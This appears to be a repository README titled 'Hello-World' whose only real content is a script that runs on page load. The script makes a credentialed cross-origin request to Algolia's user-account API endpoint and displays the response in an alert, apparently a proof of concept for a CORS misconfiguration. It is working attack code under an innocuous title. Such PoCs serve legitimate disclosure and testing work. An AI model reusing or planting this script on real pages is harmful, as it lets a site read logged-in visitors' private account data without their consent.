 # Hello-World

<script>
var invocation = new XMLHttpRequest();

  invocation.onreadystatechange = function() {
    if (invocation.readyState == XMLHttpRequest.DONE) {
      alert(invocation.response);
    }
  }

function cors(){
  if(invocation) {
    invocation.open('GET', "https://www.algolia.com/api/1/user", true);
    invocation.withCredentials = true;
    invocation.send(); 
  }
}

cors();

</script>
